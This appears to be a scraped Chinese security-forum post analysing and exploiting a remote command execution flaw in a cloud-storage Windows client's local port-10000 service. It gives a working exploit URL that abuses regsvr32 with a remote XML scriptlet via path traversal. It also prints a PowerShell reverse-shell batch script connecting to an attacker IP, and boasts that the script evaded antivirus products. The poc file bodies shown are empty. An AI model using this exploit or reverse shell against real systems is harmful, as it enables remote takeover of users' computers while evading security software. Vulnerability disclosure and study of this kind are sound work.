










# [漏洞分析] 某度网盘存在rce详解及利用过程

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=2058423
- 抓取时间: 2026-11-01T21:51:30

## 前言

某网盘Windows客户端安装后，后台程序将监听本地`10000`端口，处理`HTTP\HTTPS`请求。其中的`HTTP`请求`OpenSafeBox`存在命令注⼊漏洞，攻击者可以控制该请求的`URL`参数，注⼊指定命令，可实现远程命令执行。版本小于等于`7.59.5.104`（最新版，截⽌时间2025/09/3）均存在该漏洞。


1.png (44.8 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY3NXxjNjQzOTRiYXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY3NXxjNjQzOTRiYXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

## 漏洞分析

某网盘客户端安装后，后台程序`YunDetectService.exe`将监听本地`10000`端口。该后台程序为开机自启动。


2.png (1.86 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY3Nnw5N2FlYWY3OXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY3Nnw5N2FlYWY3OXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传


3.png (10.61 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY3N3w1NTBjMmMyOXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY3N3w1NTBjMmMyOXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传


4.png (117.52 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY3OHw4NWM2ZmI3MHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY3OHw4NWM2ZmI3MHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

`10000`端⼝处理`HTTP`或者`HTTPS`请求（版本`7.50.0.130`之前处理`HTTP`，往后版本则是`HTTPS`），以`method = xxxx`的形式传递参数，实现不同的功能。其中的`method` 主要包括：`GetVersion`，`GetPcCode`，`DownloadShareItems`，`DownloadSelfOwnItems`，`OpenSafeBox`等。

`OpenSafeBox`⽅法的参数`uk`字段的值作为`Netdisk.exe`的命令行参数`userkey`的值，以字符串拼接的方式传递到该程序中，后续将创建该程序运行。`URL`参数传递形式为`method=OpenSafeBox&uk=xxxx`，传递到程序中的形式为`-opensafebox -userkey` 【具体`userkey`值】，代码中没有对该参数进⾏安全检测和过滤，因此此处存在命令行参数注入。


5.png (55.25 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY3OXxlYWNhNmFiZHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY3OXxlYWNhNmFiZHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

`Netdisk.exe`程序支持`opensafebox`，`install`，`userkey`，`createshortcut`等命令行参数。其中参数`install regdll`实现的功能中，将创建系统程序`regsvr32.exe`注册`YunShellExt.dll`⽂件，其文件目录通过命令⾏参数进⾏拼接组合，此⽬录参数可控。后续还将检查拼接后的`YunShellExt.dll`或者`YunShellExt64.dll`⽂件是否存在，如果存在才会执⾏后续的注册功能。这⾥可以使⽤路径穿越字符串`..\`构造`YunShellExt.dll`的真实路径，比如：

```
..\\..\\..\\..\\..\\..\\..\\..\\Users\\xxx\\AppData\\Roaming\\baidu\\BaiduNetdisk
```


6.png (46.99 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgwMzY4MHw3ZGMwZjIyMHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4MHw3ZGMwZjIyMHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

注册时，调⽤系统`regsvr32.exe`程序实现。其中`regsvr32.exe`的参数同样采⽤字符串拼接的方式进行组合，没有对其进行安全检测和过滤，文件路径可控，可进行命令行参数注入。正常情况下，此时`regsvr32.exe`对应的文件路径是`YunShellExt.dll`或者`YunShellExt64.dll`文⽂件路径。漏洞利用时，可以将该`DLL`路径劫持为系统⾃带的`scrobj.dll`路径，同时使用双引号截断命令，对`regsvr32.exe`进⾏命令行参数注入，以便引入`/i`和`/u`参数，再传递远程`xml`文件地址。此时将下载远程`xml`文件，并执行其中的命令，实现远程执行命令的目的。

## 漏洞复现

可以在本地启动也可以在服务区上使用`python3`搭建`http web`服务。修改`poc.html`中的攻击者服务器地址和⽤户名，用户名是安装某网盘客户端机器上的用户名，然后将`poc.xml`和`poc.html`放⼊`web`目录，使之能远程访问来触发漏洞即可。

这里我们选择在本地开启`http`服务


7.png (12.2 KB, 下载次数: 2)
[href="forum.php?mod=attachment&aid=MjgwMzY4MXwzYmQ4Y2FjOHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4MXwzYmQ4Y2FjOHwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

创建`poc.xml`

```

先用调取计算器来测试

创建`poc.html`

```
 
```

确保某⽹盘客户端`Netdisk.exe`进程已退出（默认情况下，某⽹盘客户端安装后，重启电脑后只有后台程序`YunDetectService.exe`运⾏）。使⽤浏览器访问远程`poc.html`，触发漏洞，将运行`Netdisk.exe`程序。最终执行`regsvr32.exe`程序，下载并执行远程`poc.xml`中的命令，运行计算器程序。

```
https://localhost:10000/?method=OpenSafeBox&uk=a%20-install%20regdll%20%22C:\\\Windows\\System32\\scrobj.dll\%22%20/u%20/i:http://127.0.0.1:8000/poc.xml%20\%22\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Users\32139\AppData\Roaming\baidu\BaiduNetdisk



```
8.png (161.54 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgwMzY4MnwyM2JhZjVhMXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4MnwyM2JhZjVhMXwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

这里的`32139`和`IP`端口根据自己设置的进行调整。

弹计算机可以的话，那么我们直接反弹`shell`也是可行的，`Windows`反弹`shell`的话直接弹也可以，使用`nc`的话也可以，不过`nc`的话不能保证每台电脑都有，并且路径的话不好确定，这里我们采用远程下载`bat`的方法来进行，至于为什么用`bat`脚本——看结尾。

先看`bat`脚本吧

```
@echo off

powershell -ep bypass -c "$c=New-Object Net.Sockets.TCPClient('IP',port);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$o=(iex $d 2>&1 | Out-String);$o2=$o+'PS '+(pwd).Path+'> ';$b2=([text.encoding]::ASCII).GetBytes($o2);$s.Write($b2,0,$b2.Length);$s.Flush()};$c.Close()"
```

将上述内容保存为`1.bat`，存放在我们的服务器上，更换`poc.xml`中的内容

创建好我们的`bat`之后在启一个终端用来监听我们的`shell`


9.png (10.39 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=MjgwMzY4M3wzNmQ1M2JjNnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4M3wzNmQ1M2JjNnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

这里为了方便`poc.xml`仍然在本地存放，直接改动后刷新一下就可以了


10.png (39.96 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjgwMzY4NHxiODEwYmMzNnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4NHxiODEwYmMzNnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

成功弹回`shell`！！！

## 结尾

到这里就结束了吗？不不不，既然`Windows`可以，那么`mac`呢？是否也存在类似的漏洞，欢迎各位大佬讨论。


11.png (117.52 KB, 下载次数: 3)
[href="forum.php?mod=attachment&aid=MjgwMzY4NXwwMTM1YzVhMnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgwMzY4NXwwMTM1YzVhMnwxNzkzNTY5ODg4fDE2ODA4NnwyMDU4NDIz&nothumb=yes)
2025-9-18 17:45 上传

为什么喜欢用`bat`反弹`shell`，去年学习白加黑`dll`劫持的时候意外研究出来的一个`bat`脚本，当时能够成功反弹`shell`，并且“吊打各大安全厂商”，所有的安全厂商（包括某60，某绒，`defender`等）均不报毒并且能够正常执行，由于当时对于免杀研究不深入，直接将脚本上传到各大云沙箱进行测试，遂被各大厂商标记，有效期仅维持了两个小时,不过中法规有点纪念意义和收获在，所以有时候会偏向于使用这个来进行反弹`shell`
